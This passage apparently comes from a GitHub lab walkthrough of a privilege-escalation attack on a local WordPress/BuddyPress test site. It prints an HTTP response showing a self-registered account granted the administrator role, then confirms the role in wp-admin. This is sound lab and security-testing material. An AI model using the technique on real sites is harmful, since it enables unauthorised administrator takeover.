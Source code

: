 The first response will not give the correct return response shown below, send this request again to yield similar results to the response below.


```
HTTP/1.1 200 OK
Date: Thu, 12 Jan 2023 06:37:42 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.21
X-Robots-Tag: noindex
Link: <http://192.168.0.16:7006/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-WP-Nonce: 8af0f38b91
Allow: GET, POST, PUT, PATCH
Content-Length: 2138
Content-Type: application/json; charset=UTF-8



{"id":11,"name":"test10","user_login":"test10","link":"http:\/\/192.168.0.16:7006\/members\/test10\/","member_types":[],"roles":["administrator"],"capabilities":["switch_themes","edit_themes","activate_plugins","edit_plugins","edit_users","edit_files","manage_options","moderate_comments","manage_categories","manage_links","upload_files","import","unfiltered_html","edit_posts","edit_others_posts","edit_published_posts","publish_posts","edit_pages","read","level_10","level_9","level_8","level_7","level_6","level_5","level_4","level_3","level_2","level_1","level_0","edit_others_pages","edit_published_pages","publish_pages","delete_pages","delete_others_pages","delete_published_pages","delete_posts","delete_others_posts","delete_published_posts","delete_private_posts","edit_private_posts","read_private_posts","delete_private_pages","edit_private_pages","read_private_pages","delete_users","create_users","unfiltered_upload","edit_dashboard","update_plugins","delete_plugins","install_plugins","update_themes","install_themes","update_core","list_users","remove_users","promote_users","edit_theme_options","delete_themes","export","SPF Manage Options","SPF Manage Forums","SPF Manage User Groups","SPF Manage Permissions","SPF Manage Components","SPF Manage Admins","SPF Manage Users","SPF Manage Profiles","SPF Manage Toolbox","SPF Manage Plugins","SPF Manage Themes","SPF Manage Integration","bp_moderate","administrator"],"extra_capabilities":["administrator"],"registered_date":"2023-01-12T06:23:33","xprofile":{"groups":{"1":{"name":"Base","fields":{"1":{"name":"Name","value":{"raw":"test10","unserialized":["test10"],"rendered":"<p>test10<\/p>\n"}}}}}},"friendship_status":false,"friendship_status_slug":"","mention_name":"test10","avatar_urls":{"full":"\/\/www.gravatar.com\/avatar\/6ec1cfdc728f001cdca2d1d1725ea263?s=150&#038;r=g&#038;d=mm","thumb":"\/\/www.gravatar.com\/avatar\/6ec1cfdc728f001cdca2d1d1725ea263?s=50&#038;r=g&#038;d=mm"},"_links":{"self":[{"href":"http:\/\/192.168.0.16:7006\/wp-json\/buddypress\/v1\/members\/11"}],"collection":[{"href":"http:\/\/192.168.0.16:7006\/wp-json\/buddypress\/v1\/members"}]}}
```
 
Nice, see roles":["administrator"] let's check if we have elevated?

Visit the http://192.168.0.16:7006/wp-admin/users.php to check the Role of the account we created

![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/9.png?raw=true)
